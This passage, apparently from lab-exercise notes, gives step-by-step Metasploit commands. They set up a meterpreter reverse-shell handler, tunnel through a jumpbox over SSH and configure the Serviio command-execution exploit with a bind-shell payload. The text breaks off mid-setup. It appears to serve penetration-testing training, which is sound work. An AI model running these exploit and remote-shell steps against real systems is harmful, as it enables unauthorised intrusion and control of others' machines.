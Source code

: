 Start a generic payload handler.
```
use exploit/multi/handler
```

```
set PAYLOAD windows/meterpreter/reverse_tcp
```

```
set LHOST 127.0.0.1
```

```
set LPORT 60000
```

```
run
```

SHELL 1:
```
exploit
```

#### 6.2 Low Priv Shell - Bind shell payload

Same as previous exercise, but configure the payload to be a bind shell.

```
ssh $USER@$JB1 -L 23423:$TARGET2:23423 -L 50000:$TARGET2:50000
```

SHELL1:
```
sudo msfdb run
```

Specify the exploit to use.
```
use exploit/windows/http/ serviio_checkstreamurl_cmd_exec
```

Leverage a -L forward tunnel through one of the jumpboxes.
```
set RHOSTS 127.0.0.1
```

```
set RPORT 23423
```

Specify payload.
```
set PAYLOAD windows/meterpreter/bind_tcp
```

Configure the payload to listen on all interfaces.
```
set LHOST 0.0.0.0
```
